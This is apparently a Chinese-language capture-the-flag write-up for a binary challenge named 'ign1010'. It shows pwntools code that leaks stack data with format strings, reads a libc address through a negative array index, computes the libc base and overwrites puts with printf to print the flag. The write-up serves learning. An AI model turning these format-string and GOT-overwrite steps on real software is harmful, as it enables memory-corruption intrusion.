



# 8. ign1010

## Writeup

format string 印出的順序

| rsi      | %1$p |
| -------- | ---- |
| rdx      | %2$p |
| rcx      | %3$p |
| r8       | %4$p |
| r9       | %5$p |
| rsp      | %6$p |
| rsp+0x8  | %7$p |
| rsp+0x10 | %8$p |
| ...      | ...  |

<aside>
💡 這題本身會把 flag file 打開，並且存入到 text array 當中，因此我們可以透過 return into libc + format string 的方式來把 flag 印出來。

</aside>

### Step

1. 我們觀察到open file以後，flag 會從 rsp+0x10 的地方開始，因此我們的 format string 會從 %8$p**(rsp+0x10)** 開始 print。所以我們先進入 edit_info()，我們希望在 game1010[0] 的 name這個 item 寫入我們的 format string，因此我們將 idx 設為 0，choice 設為 1
    
    
    
    ```python
    #透過format string的方式在game1010[0]的name塞入flag的值
    p.sendlineafter(b'> ', str(2))
    p.sendlineafter(b'idx> ', str(0))
    p.sendlineafter(b'4.comment\n> ', str(1))
    p.sendlineafter(b'Content:', b'%8$p %9$p %10$p %11$p %12$p %13$p')
    ```
    
2. 我們希望可以得到libc的base address，因此我們找到"__libc_start_main"的address在game1010往前256byte的地方，而一個game1010的element為128byte，因此我們從game1010[-2]即可得到"__libc_start_main"的address。所以我們會再做一次edit_info()，並且將idx設為-2，如此我們就可以從終端機拿到"__libc_start_main"的address。
    
    ```python
    #取得"__libc_start_main"的address。
    p.sendlineafter(b'> ', str(2))
    p.sendlineafter(b'idx> ', str(-2))
    p.recv(13)
    addr = p.recv(6)
    print(addr)
    main_addr = int.from_bytes(addr, byteorder='little')
    ```
    
3. 得到"__libc_start_main"的address後，我們可以推算出libc的base在哪裡，並且透過libc的base找到printf的address。
    
    ```python
    #計算printf_plt的address
    main_offset = l.symbols["__libc_start_main"]
    print(hex(main_offset))
    printf_offset = l.symbols["printf"]
    print(hex(printf_offset))
    libc_base = main_addr - main_offset
    print(f"libc_base => {hex(libc_base)}")
    printf_plt = libc_base + printf_offset
    print(f"printf_plt => {hex(printf_plt)}")
    ```
    
4. 找到printf的address以後，我們透過game1010[-2]的wiki可以將libc中的puts改為printf，如此一來在main func中的puts都會被改為printf。
    
    
    
    ![puts@GLIBC的位址在game1010[-2].wiki的地方，因此我們將game1010[-2].wiki改為printf的address](../img/bff01baa-8da7-4928-9d1c-9388cea47505.jpg)
    
    puts@GLIBC的位址在game1010[-2].wiki的地方，因此我們將game1010[-2].wiki改為printf的address
    
5. 將 puts 改為 printf 後，我們可以在 main function 的 for loop 中 i=0 的位置，把我們的flag印出來。
    
    
    
    
    
    16進位的flag
    
6. 由於這個編碼為16進位的編碼，因此我們將這個編碼轉為 utf8，如此就可以得到 flag
    
    
    